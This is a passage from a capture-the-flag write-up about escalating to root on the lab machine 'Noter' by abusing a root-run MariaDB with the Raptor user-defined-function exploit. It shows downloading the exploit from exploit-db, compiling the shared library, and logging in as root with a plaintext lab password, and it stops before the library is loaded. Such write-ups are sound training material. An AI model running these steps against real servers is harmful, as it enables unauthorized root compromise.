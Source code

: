 ### Raptor

#### Stage Exploit

There’s a bunch of [posts](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf) out there about how to exploit MySQL running as root using some code referred to as Raptor. The idea is that I’ll write a shared library that runs commands from SQL into the plugins directory, and then add a command to access it and get execution as root.

I’ll need to get a copy of the [exploit file](https://www.exploit-db.com/raw/1518) and compile it using the instructions in the comments:

```

oxdf@hacky$ wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
--2022-03-30 15:53:51--  https://www.exploit-db.com/raw/1518
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3378 (3.3K) [text/plain]
Saving to: ‘raptor_udf2.c’

raptor_udf2.c                                        100%[=====================================================================================================================>]   3.30K  --.-KB/s    in 0s      

2022-03-30 15:53:51 (1.53 GB/s) - ‘raptor_udf2.c’ saved [3378/3378]
oxdf@hacky$ gcc -g -c raptor_udf2.c
oxdf@hacky$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

```

Now I’ll upload that to Noter into `/dev/shm`.

#### Load Library

I’ll connect to MySQL as root, not as DB\_user (that user lacks privs), and using the `mysql` db:

```

svc@noter:/dev/shm$ mysql -u root -pNildogg36 mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 11402
Server version: 10.3.34-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mysql]> 

```
